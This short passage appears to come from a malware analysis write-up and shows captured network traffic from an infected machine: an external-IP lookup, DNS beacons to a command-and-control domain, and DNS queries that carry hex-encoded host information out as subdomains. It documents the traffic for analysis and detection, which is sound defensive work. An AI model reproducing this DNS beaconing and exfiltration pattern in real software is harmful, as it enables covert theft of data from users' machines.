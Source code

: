 ## External IP Scraping  
```
GET / HTTP/1.1
Host: checkip.amazonaws.com
User-Agent: test my ip
Accept: */*

HTTP/1.1 200 OK
Date: Thu, 06 Aug 2020 02:01:02 GMT
Server: lighttpd/1.4.53
Content-Length: 14
Connection: keep-alive

107.158.15.11
```

## C2 Beaconing
```
34  10.874377 192.168.1.101 → 192.168.1.1  DNS 123 Standard query 0x85bf A 898A926AB2D9AFF7CD2FFB3BE8A8A0545BBBBA96.biillpi.com OPT
35  10.874542 192.168.1.101 → 192.168.1.1  DNS 123 Standard query 0xd994 AAAA 898A926AB2D9AFF7CD2FFB3BE8A8A0545BBBBA96.biillpi.com OPT
```
  
## C2 Host Information Exfiltration
```
20   9.602723 192.168.1.101 → 192.168.1.1  DNS 314 Standard query 0x1916 A 898A926AB2D9AFF7CD2FFB3BE8A8A0545BB9BA96D8D7DAD1D6CBE6D5D0D7CCC.196CBDCD4D7CCC1E6F58D888C89888888978F8EFBFF8F81FD80FDFD89FF8DFD.8E8B808B898DFF88FB8EFB8D8AF8F8F888FF968996F58D888C8988888896888.989889688898E97888C8197888C97888896FF81.biillpi.com OPT
21   9.610991 192.168.1.101 → 192.168.1.1  DNS 314 Standard query 0x8b73 AAAA 898A926AB2D9AFF7CD2FFB3BE8A8A0545BB9BA96D8D7DAD1D6CBE6D5D0D7CCC.196CBDCD4D7CCC1E6F58D888C89888888978F8EFBFF8F81FD80FDFD89FF8DFD.8E8B808B898DFF88FB8EFB8D8AF8F8F888FF968996F58D888C8988888896888.989889688898E97888C8197888C97888896FF81.biillpi.com OPT
```